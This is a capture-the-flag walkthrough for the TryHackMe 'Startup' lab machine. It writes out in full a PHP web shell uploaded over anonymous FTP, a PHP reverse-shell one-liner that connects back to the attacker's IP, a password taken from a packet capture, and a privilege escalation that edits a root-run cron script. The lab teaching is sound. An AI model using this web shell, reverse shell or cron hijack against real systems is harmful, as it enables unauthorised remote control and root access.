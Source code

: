 # Startup
![tryhackme_logo](https://user-images.githubusercontent.com/83867734/185771149-cb02c6f2-8476-4ab3-a626-cca8db0a08bf.png)

Difficulty: **Easy**

Compromise the machine and read the user.txt and root.txt.

Tags
--
* FTP Restricted Upload
* Reverse Shell
* Hidden cronjob

Tools used
--
* nmap
* ffuf
* ftp
* wireshark
* pspy

Machines
--
Attacker:
* Name: attacker_machine
* Operating System: Athena OS
* IP Address: 10.18.98.39

Victim:
* Name: victim_machine
* IP Address: 10.10.200.139
* Other information must be gathered during the attack

Phase 1: Enumeration
--
```
sudo nmap -sS -sC -sV 10.10.200.139 -p- -T5 -vvv

<SNIP>
Discovered open port 21/tcp on 10.10.200.139
Discovered open port 80/tcp on 10.10.200.139
Discovered open port 22/tcp on 10.10.200.139
<SNIP>
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 63 vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
<SNIP>
```
Phase 2: Foothold
--
Let's retrieve files from ftp by anonymous login:
```
ftp -n 10.10.200.139

Connected to 10.10.200.139.
220 (vsFTPd 3.0.3)
ftp> user anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
226 Directory send OK.
```
Get these two files. Note that in general, you could not see any hidden files starting with `.`. By opening the JPG image, it is possible to note a small string on the character, like `Adityaaa.xd`. In the `notice.txt` file is reported:
```
Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus.
```
After spending a lot of time by cracking `maya` or `aditya` usernames with no luck, from the Nmap result, we see that `ftp` folder is writable, while the ftp root folder is not. Let's try to upload a web shell on `ftp` folder. Our `shell.php`:
```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```
Let's connect to ftp:
```
ftp -n 10.10.200.139

Connected to 10.10.200.139.
220 (vsFTPd 3.0.3)
ftp> user anonymous
331 Please specify the password.
Password: 
230 Login successful.
ftp> cd ftp
250 Directory successfully changed.
ftp> put shell.php
```
Now visit: http://10.10.200.139/files/ftp/shell.php

If you wish, you can also use a reverse shell. Since I tried to upload some PHP shells but they didn't execute, I use web shell for running a reverse shell.

Now you can send commands to the web server:
```
php -r '$sock=fsockopen("10.18.98.39",4444);exec("/bin/sh <&3 >&3 2>&3");'
```
and click `Execute`. Remember to run netcat listener on port 4444.

On netcat listener, run:
```
script /dev/null -c bash
ls -la /home

drwx------  4 lennie lennie 4096 Nov 12  2020 lennie

ls -la /
<SNIP>
drwxr-xr-x   2 www-data www-data  4096 Nov 12  2020 incidents
<SNIP>
-rw-r--r--   1 www-data www-data   136 Nov 12  2020 recipe.txt
<SNIP>
```
So, we know that a user of this server is `lennie`. Furthermore, inside `incidents` folder there is a `suspicious.pcapng` file. For our challenge, by the way, we can retrieve the secret recipe by `cat /recipe.txt`.

Let's copy `suspicious.pcapng` file to `ftp` folder so we can retrieve it on the attacker machine and analyze it:
```
cp /incidents/suspicious.pcapng /var/www/html/files/ftp/
```
By the browser, go to http://10.10.200.139/files/ftp/suspicious.pcapng and get the file. Open it by Wireshark and analyze it. Go on Analyze -> Follow -> TCP Stream and you can read some useful information that show an attack attempt.

On one of these TCP streams, we can read:
```
www-data@startup:/home$ sudo -l
sudo -l
[sudo] password for www-data: c4ntg3t3n0ughsp1c3

Sorry, try again.
[sudo] password for www-data: 

Sorry, try again.
[sudo] password for www-data: c4ntg3t3n0ughsp1c3

sudo: 3 incorrect password attempts
```
Come back to the reverse shell, and use this password for `lennie` user:
```
su lennie
<c4ntg3t3n0ughsp1c3>
```
It worked! Now we can get the user flag inside the lennie home directory. For being more comfortable with the shell, let's connect by SSH with lennie password.

Phase 3: Privilege Escalation
--
Inside lennie home directory, there is a `scripts` and `Documents` folders. Let's give a look for an interesting information. In particular, we can see `planner.sh`:
```bash
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```
and `startup_list.txt` that is empty. Let's give a look to `/etc/print.sh`:
```
#!/bin/bash
echo "Done!"
```
Furthermore, by looking the permissions on this file, we get:
```
ls -la /etc/print.sh 
-rwx------ 1 lennie lennie 25 Nov 12  2020 /etc/print.sh
```
In this situation, we could edit this file for putting anything we wish. At this point, we could think that `planner.sh` could be run as a scheduled task. By looking on crontab, we don't anything.

By searching on Internet, we notice that there could be hidden cronjob that we can discover by the usage of [pspy](https://github.com/DominicBreuker/pspy). This tool monitors the execution of processes on Linux in runtime. Let's download `pspy64` and move it to the target machine:
```
scp pspy64 lennie@10.10.182.57:/home/lennie/
```
Come back to the target machine and run `pspy`:
```
chmod +x pspy64
./pspy64

<SNIP>
2022/08/27 13:19:01 CMD: UID=0    PID=1522   | /bin/bash /home/lennie/scripts/planner.sh 
2022/08/27 13:19:01 CMD: UID=0    PID=1521   | /bin/sh -c /home/lennie/scripts/planner.sh
<SNIP>
```
`UID=0` should mean that the process is run as `root`.

Summarizing, we need only to edit `/etc/print.sh` file with the commands we wish. This file will be called as root by `planner.sh` script. Let's edit `/etc/print.sh` in the following manner:
```bash
#!/bin/bash
cp -rf /root/root.txt /home/lennie/
chmod +r /home/lennie/root.txt
echo "Done!"
```
We can monitor this process by `pspy` tool or we can simply wait until `root.txt` will appear on lennie home folder, and we get the root flag.
